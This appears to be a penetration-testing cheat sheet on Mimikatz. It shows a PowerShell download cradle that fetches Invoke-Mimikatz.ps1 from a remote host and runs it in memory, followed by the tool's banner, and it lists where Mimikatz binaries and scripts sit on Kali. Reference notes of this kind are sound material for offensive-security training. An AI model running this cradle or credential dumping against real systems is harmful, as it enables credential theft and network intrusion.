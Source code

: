 # Mimikatz
## PowerShell Download Cradle
```
[security.local]: PS C:\> iex (New-Object Net.WebClient).DownloadString("http://10.0.5.101/Invoke-Mimikatz.ps1")
[security.local]: PS C:\> . .\Invoke-Mimikatz.ps1
[security.local]: PS C:\> Invoke-Mimikatz
Hostname: SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) #
```
## Mimikatz locations on Kali
### Executables
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe <br>
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe <br>
### PowerShell
/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1 <br>
/usr/share/powershell-empire/empire/test/data/module_source/credentials/Invoke-Mimikatz.ps1 <br>
/usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1
